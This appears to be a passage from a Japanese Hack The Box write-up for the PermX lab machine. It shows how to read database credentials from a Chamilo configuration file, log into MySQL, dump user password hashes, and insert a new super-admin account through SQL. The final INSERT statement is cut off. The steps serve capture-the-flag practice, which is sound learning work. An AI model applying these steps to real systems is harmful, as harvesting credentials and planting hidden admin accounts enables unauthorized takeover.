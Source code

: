 ```bash
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
 * Directory settings.
 */
// URL to the root of your Chamilo installation, e.g.: http://www.mychamilo.com/
$_configuration['root_web'] = 'http://lms.permx.htb/';
// Path to the webroot of system, example: /var/www/
```

データベースにアクセスする。
```bash
$ mysql -h localhost -P 3306 -u chamilo -p chamilo
Enter password: 03F6lY3uXAP2bkW8

MariaDB [chamilo]> USE chamilo;
MariaDB [chamilo]> SELECT * FROM user LIMIT 10;
+----+----------+-----------------------+--------+--------------------------------------------------------------+
| id | username | email                 | status | password                                                     |
+----+----------+-----------------------+--------+--------------------------------------------------------------+
|  1 | admin    | admin@permx.htb       |      1 | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
|  2 | anon     | anonymous@example.com |      6 | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----+----------+-----------------------+--------+--------------------------------------------------------------+

```



adminのアカウントのパスワードを書き換えることにする。
まず、何でハッシュ化されているのかわからないので、[https://www.tunnelsup.com/hash-analyzer/]で8種の種類を調べる。
bcryptだったので、[https://bcrypt-generator.com/]でbcryptしたハッシュを使うことにする
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Easy/PermX/images/Pasted%20image%2020250103150646.png)

ユーザー名/パスワードで新しい、adminアカウントを作る。
newadmin/password

```bash
INSERT INTO user (username, username_canonical, email, email_canonical, password, salt, roles, status, registration_date, active, locked, enabled, expired, credentials_expired)
VALUES (
    'newadmin', 
    'newadmin', 
    'newadmin@example.com', 
    'newadmin@example.com', 
    '$2a$12$R1JrMN6jvOxR6ezlMjS3QOHMLSz82PV3AhJqLfGL1/t2n5KeqlYv2', 
    '', 
    'a:1:{i:0;s:16:"ROLE_SUPER_ADMIN";}', 
    1, 
    NOW(), 
    1,
    0,  -- 'locked' フィールド：0はロックされていないことを意味します
    1,  -- 'enabled' フィールド：1は有効であることを意味します
    0,  -- 'expired' フィールド：0は期限切れでないことを意味します
    0   -- 'credentials_expired' フィールド：0は資格情報が期限切れでないことを意味します
```